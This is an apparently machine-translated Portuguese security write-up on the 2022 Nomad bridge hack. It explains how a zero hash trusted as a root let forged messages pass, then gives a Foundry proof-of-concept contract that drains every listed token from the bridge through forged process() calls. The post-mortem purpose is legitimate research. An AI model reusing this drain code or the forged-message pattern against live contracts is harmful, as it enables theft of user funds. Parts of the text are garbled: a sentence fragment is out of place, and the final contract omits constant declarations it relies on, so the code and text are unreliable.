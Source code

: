 # Depuração de Transações OnChain: 7. Análise do Hack: Nomad Bridge (2022/08)

### Autor: [gmhacker.eth](https://twitter.com/realgmhacker)

## Introdução
A ponte Nomad foi hackeada em 1º de agosto de 2022 e $190 milhões de fundos bloqueados foram drenados. Depois que um atacante conseguiu explorar a vulnerabilidade e obter sucesso, outros viajantes da floresta escura se juntaram para repetir o exploit, o que acabou se tornando um hack colossal "colaborativo".

Uma atualização de rotina na implementação de um dos contratos proxy do Nomad marcou um valor de hash zero como uma raiz confiável, o que permitiu que as mensagens fossem automaticamente comprovadas. O hacker aproveitou essa vulnerabilidade para falsificar o contrato da ponte e enganá-lo para desbloquear fundos.

Apenas essa primeira transação bem-sucedida, que pode ser vista [aqui](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), drenou 100 WBTC da ponte - cerca de $2,3 milhões na época. Não foi necessário um flashloan ou outra interação complexa com outro protocolo DeFi. O ataque simplesmente chamou uma função no contrato com a entrada de mensagem correta, e o atacante continuou atacando a liquidez do protocolo.

Infelizmente, a natureza simples e repetível da transação levou outros a coletar parte do lucro ilícito. Como [Rekt News](https://rekt.news/nomad-rekt/) colocou, "Fiel aos princípios do DeFi, esse hack foi sem permissão - qualquer um poderia participar".

Neste artigo, analisaremos a vulnerabilidade explorada no contrato Replica da ponte Nomad e, em seguida, criaremos nossa própria versão do ataque para drenar toda a liquidez em uma transação, testando-a em um fork local. Você pode verificar o PoC completo [aqui](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022).

Este artigo foi escrito por [gmhacker.eth](https://twitter.com/realgmhacker), um Triador de Contratos Inteligentes da Immunefi.

## Contexto

O Nomad é um protocolo de comunicação entre cadeias que permite, entre outras coisas, a ponte de tokens entre Ethereum, Moonbeam e outras cadeias. As mensagens enviadas para os contratos Nomad são verificadas e transportadas para outras cadeias por meio de agentes off-chain, seguindo um mecanismo de verificação otimista.

Como a maioria dos protocolos de ponte entre cadeias, a ponte de tokens do Nomad é capaz de transferir valor por meio de diferentes cadeias por meio de um processo de bloqueio de tokens de um lado e emissão de representantes do outro. Como esses tokens representativos podem eventualmente ser queimados para desbloquear os fundos originais (ou seja, retornar à cadeia nativa do token), eles funcionam como IOUs e têm o mesmo valor econômico dos ERC-20 originais. Esse aspecto das pontes em geral leva a uma grande acumulação de fundos dentro de um contrato inteligente complexo, tornando-o um alvo muito desejado para hackers.

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Capa" width="80%"/>
</div>

Processo de bloqueio e emissão, src: [blog da MakerDAO](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

No caso do Nomad, um contrato chamado `Replica`, que é implantado em todas as cadeias suportadas, é responsável por validar mensagens em uma estrutura de árvore de Merkle. Outros contratos no protocolo dependem disso para autenticação de mensagens de entrada. Uma vez que uma mensagem é validada, ela é armazenada na árvore de Merkle, gerando uma nova raiz da árvore comprometida que é confirmada para ser processada.

## Causa Raiz

Tendo uma compreensão geral do que é a ponte Nomad, podemos mergulhar no código real do contrato inteligente para explorar a vulnerabilidade que foi aproveitada nas várias transações do hack de agosto de 2022. Para fazer isso, precisamos nos aprofundar no contrato `Replica`.

```
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```
<div align=center>

Trecho 1: função `process` em Replica.sol, veja [raw](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol).

</div>

A função `process` [function](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179) no contrato `Replica` é responsável por despachar uma mensagem para seu destinatário final. Isso só será bem-sucedido se a mensagem de entrada já tiver sido comprovada, o que significa que a mensagem já foi adicionada à árvore de Merkle, levando a uma raiz aceita e confiável. Essa verificação é feita em relação ao hash da mensagem, usando a função de visualização `acceptableRoot`, que lerá o mapeamento de raízes confirmadas.

```
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```
<div align=center>

Trecho 2: função `initialize` em Replica.sol, veja [raw](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol).

</div>

Quando ocorre uma atualização na implementação de um determinado contrato proxy, a lógica de atualização pode executar uma função de inicialização de chamada única. Essa função definirá alguns valores de estado iniciais. Em particular, uma atualização de rotina em 21 de abril foi feita e o valor 0x00 foi passado como a raiz comprometida pré-aprovada, que é armazenada no mapeamento confirmAt. Foi aí que a vulnerabilidade apareceu.

Voltando à função `process()`, vemos que dependemos de verificar um hash de mensagem no mapeamento `messages`. Esse mapeamento é responsável por marcar as mensagens como processadas, para que os atacantes não possam repetir a mesma mensagem.

Um aspecto particular do armazenamento de contrato inteligente EVM é que todos os slots são inicializados virtualmente como valores zero, o que significa que se alguém ler um slot não utilizado no armazenamento, não será gerada uma exceção, mas sim retornará 0x00. Um corolário disso é que toda chave não utilizada em um mapeamento Solidity retornará 0x00. Seguindo essa lógica, sempre que o hash da mensagem não estiver presente no mapeamento `messages`, será retornado 0x00, e isso será passado para a função `acceptableRoot`, que por sua vez retornará verdadeiro, dado que 0x00 foi definido como uma raiz confiável. A mensagem será então marcada como processada, mas qualquer pessoa pode simplesmente alterar a mensagem para criar uma nova mensagem não utilizada e enviá-la novamente.

A mensagem de entrada codifica vários parâmetros diferentes em um determinado formato. Entre eles, para uma mensagem desbloquear fundos da ponte, há o endereço do destinatário. Portanto, depois que o primeiro atacante executou uma [transação bem-sucedida](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), qualquer pessoa que soubesse como decodificar o formato da mensagem poderia simplesmente alterar o endereço do destinatário e repetir a transação de ataque, desta vez com uma mensagem diferente que daria lucro para o novo endereço.

## Prova de Conceito

Agora que entendemos a vulnerabilidade que comprometeu o protocolo Nomad, podemos formular nossa própria prova de conceito (PoC). Vamos criar mensagens específicas para chamar a função `process` no contrato `Replica` uma vez para cada token específico que queremos drenar, levando à insolvência do protocolo em uma única transação.

Começaremos selecionando um provedor RPC com acesso a arquivos. Para esta demonstração, usaremos [o agregador RPC público gratuito](https://www.ankr.com/rpc/eth/) fornecido pela Ankr. Selecionamos o número do bloco 15259100 como nosso bloco de fork, 1 bloco antes da primeira transação de hack.

Nossa PoC precisa passar por várias etapas em uma única transação para ter sucesso. Aqui está uma visão geral de alto nível do que implementaremos em nossa PoC de ataque:

1. Selecionar um determinado token ERC-20 e verificar o saldo do contrato de ponte ERC-20 do Nomad.
2. Gerar uma carga útil de mensagem com os parâmetros corretos para desbloquear fundos, entre os quais nosso endereço de atacante como destinatário e o saldo total do token como a quantidade de fundos a serem desbloqueados.
3. Chamar a função vulnerável `process`, o que levará à transferência de tokens para o endereço do destinatário.
4. Percorrer vários tokens ERC-20 com uma presença relevante no saldo da ponte para drenar esses fundos da mesma maneira.

Vamos codificar uma etapa de cada vez e, eventualmente, ver como fica toda a PoC. Usaremos o Foundry.

## O Ataque

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```
<div align=center>

Trecho 3: O início do nosso contrato de ataque, veja [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Vamos começar criando nosso contrato Attacker. O ponto de entrada para nosso contrato será a função `attack`, que é tão simples quanto um loop for percorrendo vários endereços de token diferentes. Verificamos o saldo de `ERC20_BRIDGE` do token específico com o qual estamos lidando. Este é o endereço do contrato de ponte ERC-20 do Nomad, que detém os fundos bloqueados no Ethereum.

Depois disso, a carga útil maliciosa da mensagem é gerada. Os parâmetros que mudarão em cada iteração do loop são o endereço do token e a quantidade de fundos a serem transferidos. A mensagem gerada será a entrada para a função `IReplica.process`. Como já estabelecemos, essa função encaminhará a mensagem codificada para o contrato final correto no protocolo Nomad para concretizar a solicitação de desbloqueio e transferência, enganando efetivamente a lógica da ponte.

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Trecho 4: Gere a mensagem maliciosa com o formato e parâmetros corretos, veja [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

A mensagem gerada precisa ser codificada com vários parâmetros diferentes, para que seja corretamente descompactada pelo protocolo. É importante especificar o caminho de encaminhamento da mensagem - o roteador da ponte e os endereços da ponte ERC-20. Devemos marcar a mensagem como uma transferência de token, daí o valor `0x3` como o tipo.

Por fim, temos que especificar os parâmetros que nos trarão lucro - o endereço correto do token, a quantidade a ser transferida e o destinatário dessa transferência. Como já vimos, isso certamente criará uma nova mensagem original que nunca foi processada pelo contrato `Replica`, o que significa que ela será realmente vista como válida, de acordo com nossa explicação anterior.

ataque. Se tivéssemos alguns logs do Foundry, nossa PoC ainda teria apenas 87 linhas de código.

Se executarmos esta PoC no número do bloco bifurcado, obteremos os seguintes lucros:

* 1.028 WBTC
* 22.876 WETH
* 87.459.362 USDC
* 8.625.217 USDT
* 4.533.633 DAI
* 119.088 FXS
* 113.403.733 CQT

## Conclusão

O exploit da ponte Nomad foi um dos maiores hacks de 2022. O ataque destaca a importância da segurança em todo o protocolo. Neste caso específico, aprendemos como uma única atualização de rotina em uma implementação de proxy pode causar uma vulnerabilidade crítica e comprometer todos os fundos bloqueados. Além disso, durante o desenvolvimento, é necessário ter cuidado com os valores padrão 0x00 nos slots de armazenamento, especialmente na lógica que envolve mapeamentos. Também é bom ter uma configuração de teste de unidade para esses valores comuns que podem levar a vulnerabilidades.

Deve-se observar que algumas contas de saqueadores que drenaram parte dos fundos os devolveram ao protocolo. Há [planos para relançar a ponte](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), e os ativos devolvidos serão distribuídos aos usuários por meio de ações proporcionais dos fundos recuperados. Quaisquer fundos roubados podem ser devolvidos para a [carteira de recuperação](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154) do Nomad.

Como mencionado anteriormente, esta PoC na verdade aprimora o hack e drena todo o TVL em uma única transação. É um ataque mais simples do que o que realmente aconteceu na realidade. É assim que fica toda a nossa PoC, com a adição de alguns logs úteis do Foundry:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Trecho 5: todo o código, veja [raw](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol).

</div>
.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->